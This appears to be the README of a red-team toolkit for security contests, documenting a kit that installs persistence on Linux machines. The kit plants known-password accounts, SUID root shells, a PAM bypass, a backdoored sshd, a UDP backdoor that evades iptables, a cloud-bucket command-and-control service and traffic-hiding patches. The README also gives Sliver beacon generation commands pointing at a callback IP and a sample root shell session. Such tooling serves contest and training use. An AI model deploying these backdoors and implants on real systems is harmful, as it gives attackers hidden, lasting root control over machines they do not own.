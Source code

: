 A collection of scripts that would be useful in during certain security contests.

!! Make sure to change the IP in Beachhead/watershell.sh to your IP if you dont want it going to a team server as well as run `python3 -m http.server 80` while in the UnnamedSecurityContest root

!! Make sure to alos change the IP in Beachhed/sliver.sh to be your IP if you dont want it going to a team server. You will also need to put a payload in Beachhead_source/sliverPayloads.

!! Change the ip on phpUDP as well

The Private SSH key loaded will be distributed through another channel.

!! Beachhead - Install many access points - requires root access
 * adduser - Creates user scoring:redteam123
 * aptAPT - Installs several apt pre-execution scripts.  
   * changes the root password to redteam123
   * Modifies /etc/sshd/sshd_config to allow password login
   * Modifies /etc/sshd/sshd_config to allow remote root login
   * Loads a known SSH pubkey into authorized keys.
 * mksuidshell - Compiles a SUID shell and places it as /usr/bin/sushi, /usr/bin/bash, nologin, sh
 * PAMswap - Copies the PAM permit object over the deny object making failed logins work.
 * phonehome - Installs a debian package, which installs a go binary as a systemd service that runs whatever command is posted in a google cloud bucket.
 * watershell - Runs a watershell backdoor on port 1337
 * suid - Creats a bin at /usr/bin/croissant with suid giving root shell
 * itablesflush - Creates a cron to flush IP tables
 * hidetraffic - Patches severals bins to hide red team traffic

!! Compiled Binaries
  * sshd - backdoored sshd daemon.  remote root login always allowed, password "redteam" accepted for any user.
  * ssh - client to activate a secondary backdoor which doesn't log logins.  https://github.com/Psmths/openssh-backdoor
  * sushi - precompiled suid shell
  * suidrun - runs the command pass as root (suitable for webshells) e.g. suidrun /bin/touch /tmp/win
  * watershell - a udp backdoor that bypasses iptables 

!! Runners - Utilities to execute other scripts
  * attack_linux_w_su.py - Connects to a box with one user, su's to another user, executes all scripts in a tar.gz.  The scripts should be within a directory named 'remote'.  Requires python paramiko.  Requires a remote.sh to execute all the scripts.
  * attack_linux_w_sudo.py - Connects to a box with one user, executes all scripts in a tar.gz using sudo.  The scripts should be within a directory named 'remote'.  Requires python paramiko.
  * attack_master.py Loops through a file executing each command
  * a list of commands to be executed.  likely calling attack_linux...

!! Sliver Commands
  * `generate --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`
  * `generate beacon --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`

!! Watershell Commands
  * ```
  ┌──(root㉿dragon)-[~/UnnamedSecurityContest/Beachhead_source/watershell-tcp]
  └─# python3 watershell-cli.py -t 10.10.1.36 -p 1337 -c id
  Connecting to Watershell on ('10.10.1.36', 1337)...
  Connected!
  uid=0(root) gid=0(root) groups=0(root)
  ```
